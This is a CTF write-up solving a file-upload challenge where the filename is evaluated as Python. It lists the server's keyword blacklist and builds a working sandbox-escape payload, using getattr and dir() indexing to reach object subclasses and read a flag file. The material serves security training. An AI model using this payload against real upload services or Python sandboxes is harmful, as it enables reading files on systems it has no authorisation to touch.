 # The Most Secure File Uploader

1.png
54/306 = 18% of the teams solved this challenge.

## Phase: Reconnaissance
Here we need to figure out how the challenge works, and figure out what we can exploit.


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/2.png)

Here we can see it's a file upload. File uploaders are often insecure, let's upload something.
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/6.png)
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/3)
We see that the URL say's it a php file, but the error message looks like python. This is probably just a trick to confuse you.

We know from this that it tries to do something with the filename, and we get a error. Let's upload something that does not end with a image extension (.jpg/.png etc).
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/4.png)


Okay, uploading something other than `*.png` we get an error. Here we try upload some different payloads and see what the output is.

`hej.vad.png` =>   Traceback (most recent call last): File "", line 1, in NameError: name 'hej' is not defined
`0.png` =>         File "", line 1 0.png ^ SyntaxError: invalid syntax
`AAAA).png` =>     File "", line 1 AAAA).png ^ SyntaxError: invalid syntax
`$flag.png`  =>    File "", line 1 .png ^ SyntaxError: invalid syntax
`__debug__.png` => Traceback (most recent call last): File "", line 1, in AttributeError: 'bool' object has no attribute 'png'
`__debug__.__str__.png` => Traceback (most recent call last): File "", line 1, in AttributeError: 'method-wrapper' object has no attribute 'png'
`123456789[:-1].png` Traceback (most recent call last): File "", line 1, in TypeError: 'int' object has no attribute '__getitem__'

As you can see, when we did the CTF, we fell in the php trap and though the server was running php code. The more we tried, we noticed that it's definately python error messages.

And the breakthrough were when we added a # at the end to comment out the .png part as it seem to be failing on that line.
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/5.png)


### Blacklist
As we try upload some known python names, like __class__.png 
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/7.png)

...And there seem to be a blacklist.

Iterating over some known and `useful` python stuff we get the following blacklist:

`subprocesses|os|import|builtins|eval|locals|class|;|file` 

and the file must end with a .png.


## Phase: Exploit - Python sandbox escape
From the reconnisance phase we notice the challenge is a Python sandbox escape.
Usually the flag is hidden on the server in a .txt file, so our goal is to read a file.

`().__class__.__base__.__subclasses__()[40]("flag.txt").read()` 
Here is the line we want to execute, but from the reco phase we know that class, subclasses is blacklisted.
To circumvent this we need to figure out another way to run __class__ and __subclasses__ without actually typing it.

```
>>> dir([])[1]
'__class__'
```

Okay, we can now write the __class__ without directly typing it to bypass the blacklist.

```
>>> getattr((), dir([])[1])
<type 'tuple'>
```
This translates to `[].__class__`.

Okay so next we want to append __base__.

```
>>> getattr((), dir([])[1]).__base__
<type 'object'>
```
And now we want to append __subclassses__, but we know class is blacklisted so we have to bypass it somehow.

```
>>> dir(().__class__.__base__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
We've found the __subclasses__. Now we just have to write the same command without using class.

```
>>> dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```

Great! Let's extract what we want:
```
>>> dir(().__class__.__base__.__class__)[34]
'__subclasses__'
```

If we combine what we have so far:
```
getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])
<built-in method __subclasses__ of type object at 0x5610a5dd6980>
```

Adding () to call the __subclasses__ function.

```
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]
<type 'file'>
>>> 
```
Let's combine our payload and upload it to get the flag.
```mv payload.png "print getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]('flag').read()#.png"```


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/8.png)

